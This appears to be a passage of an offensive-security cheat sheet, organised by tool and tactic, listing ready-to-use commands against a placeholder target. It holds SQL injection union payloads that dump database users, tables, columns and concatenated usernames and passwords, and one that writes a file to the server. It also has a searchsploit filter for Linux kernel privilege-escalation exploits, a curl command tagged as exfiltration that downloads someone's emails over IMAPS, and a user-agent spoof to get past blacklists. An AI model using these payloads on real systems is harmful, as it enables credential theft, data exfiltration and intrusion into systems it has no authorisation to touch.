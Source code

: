 ## get the current user  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,user(),5`

## see all tables  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables`

## get column names for a specified table  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'`

## concat user names and passwords (0x3a represents “:”)  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users`

## write into a file  
- `http://target-ip/inj.php?id=1 union all select 1,2,3,"content",5 into OUTFILE 'outfile'`

---

# searchsploit
- service: all
- tactics: enumeration

# filter search for specific kernel versions
- `searchsploit privilege | grep -i linux | grep -i kernel | grep 2.6`

---

# curl
- service: http
- service: imap
- tactics: exfiltration

## download emails via curl
- `curl --insecure --url "imaps://target-domain/Drafts;UID=4" --user "username:password"`

## bypass useragent blacklisting
- `curl -A "Googlebot" http://target-ip/robots.txt`

---

# scp
- service: ssh
- tactics: inital_access
